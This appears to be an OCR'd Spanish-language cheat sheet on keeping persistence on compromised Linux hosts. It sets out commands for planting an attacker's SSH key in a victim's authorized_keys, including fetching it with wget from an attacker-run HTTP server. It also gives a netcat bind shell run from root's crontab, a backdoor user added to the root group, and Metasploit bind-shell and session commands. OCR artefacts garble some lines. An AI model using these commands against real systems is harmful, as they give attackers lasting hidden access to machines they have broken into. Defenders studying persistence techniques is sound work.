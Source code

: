 # Obteniendo Persistencia en Linux
## Malicious SSH Key [ *con credenciales* ]
### Generación de par de claves
```bash
**ssh-keygen** -t rsa -b 4096

*# En caso de que se solicite una contraseña tenemos la opción de dejarlo en blanco*
```

### Tranferencia de la clave pública al usuario comprometido
```bash
**ssh-copy-id** *<victim-user>***@***<target-ip-or-hostname>

# Se solicitará la contraseña del usuario*
```

### Conexión con SSH
```bash
**ssh** *<victim-user>***@***<target-ip-or-hostname>*
```

## Malicious SSH Key [ *sin credenciales* ]
### Generación de par de claves
```bash
**ssh-keygen** -t rsa -b 4096

*# En caso de que se solicite una contraseña tenemos la opción de dejarlo en blanco*
```

### Inicialización de servidor Python
```bash
**cd** ~/.ssh/
**
**python3** -m http.server 80

*# Alternativa con Python2.7*
**python2** -m SimpleHTTPServer 80
```

### Descargar archivo [ *máquina atacante* ]
```bash
**wget** http://*<attacker-ip>/id_rsa.pub*

**cat** *id_rsa.pub >> .ssh/authorized_keys*
```

## Malicious Crontab
### Creación de bindshell
```bash
**echo** 'nc -lkvnp 4443 -e /bin/bash >/dev/null &' > /tmp/bindshell
```

### Creación de crontab maliciosa
```bash
**echo '*** * * * * /tmp/bindshell' | sudo tee -a /var/spool/cron/crontabs/root
```

## New User
### Creación de nuevo usuario
```bash
**adduser** -m ****user -s /bin/bash **ftp**
```

### Cambio de contraseña
```bash
**passwd** ftp
```

### Agregar el usuario a grupo root
```bash
**usermod** -aG root **ftp**
```

## Extra
### Obteniendo conexión con Bindshell
```bash
**use** payload/generic/shell_bind_tcp

**set** RHOST <target-ip>

**set** LPORT <local-port>

**exploit**
```

### Obteniendo conexión con Bindshell
```bash
*# CTRL + Z o escribe 'background' para poner la sesión previamente obtenida en segundo plano*

**sessions** -l
**
**sessions** -u <session-id>

**sessions** <session-id>
```